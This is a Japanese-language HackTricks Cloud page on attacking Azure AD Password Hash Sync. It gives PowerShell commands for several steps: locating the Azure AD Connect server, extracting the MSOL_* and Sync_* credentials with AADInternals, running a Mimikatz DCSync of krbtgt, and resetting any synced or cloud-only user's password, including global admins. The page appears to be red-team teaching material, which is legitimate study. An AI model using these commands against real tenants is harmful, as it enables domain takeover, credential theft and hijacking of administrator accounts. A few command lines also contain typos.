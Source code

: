 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>

## 基本情報

**パスワードハッシュ同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の一つです。**Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスに、ユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

これは、オンプレADとAzure ADを同期するために企業が使用する**最も一般的な方法**です。

**ユーザー**と**パスワードハッシュのハッシュ**は、オンプレからAzure ADに同期されます。しかし、**クリアテキストのパスワード**や**オリジナルのハッシュ**はAzure ADに送信されません。
さらに、**ビルトイン**のセキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**と**アカウントの有効期限**はAzure ADで**同期されません**。そのため、**オンプレのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用してAzureリソースに**アクセスを続ける**ことができます。

オンプレのユーザーがAzureリソースにアクセスしたい場合、**認証はAzure ADで行われます**。

**PHS**は、**Identity Protection**やAADドメインサービスなどの機能に必要です。

## ピボット

PHSが設定されると、いくつかの**特権アカウント**が自動的に**作成されます**：

* アカウント**`MSOL_<installationID>`**はオンプレADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレADで**レプリケーション（DCSync）の権限**を持っていることを意味します。
* Azure ADには、**`Sync_<on-prem ADConnectサーバーの名前>_installationID`**というアカウントが作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたもの、またはクラウドのみ）の**パスワードをリセット**することができます。

これら2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**上のSQLサーバーに**保存されています**。管理者は、これらの特権ユーザーのパスワードをクリアテキストで抽出することができます。
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの一つから設定を抽出することが可能で、そのうちの一つは暗号化されています：

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**暗号化された設定**は**DPAPI**で暗号化されており、オンプレADの**`MSOL_*`**ユーザーの**パスワード**とAzureADの**Sync\_\***のパスワードが含まれています。したがって、これらを侵害することで、ADとAzureADにプライベートエスカレーションすることが可能です。

これらの資格情報がどのように保存され、復号されるかの完全な概要は、[このトーク](https://www.youtube.com/watch?v=JEIR5oGCwdg)で見ることができます。

### **Azure AD connectサーバー**を見つける

**Azure AD connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されている）、それを見つけることが可能です：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump) も使用できます。
{% endhint %}

### Sync\_\* の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーのパスワード**のみを変更する**ことも可能です（それが予期せぬことであっても）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別の選択肢として、**Sync** ユーザーが**権限**を持っている**サービスプリンシパルに特権的な権限を割り当てる**ことができ、そのサービスプリンシパルに**アクセスする**ことで権限昇格の方法となります。
{% endhint %}

### シームレス SSO

PHS と一緒にシームレス SSO を使用することが可能で、これは他の悪用にも脆弱です。以下で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWS ハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェックしてください！</strong></summary>

HackTricks をサポートする他の方法：

* **HackTricks にあなたの会社を広告したい**、または**HackTricks を PDF でダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式の PEASS & HackTricks グッズ**](https://peass.creator-spring.com)を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションをチェックしてください。
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローしてください。**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出して、あなたのハッキングのコツを**共有してください。**

</details>
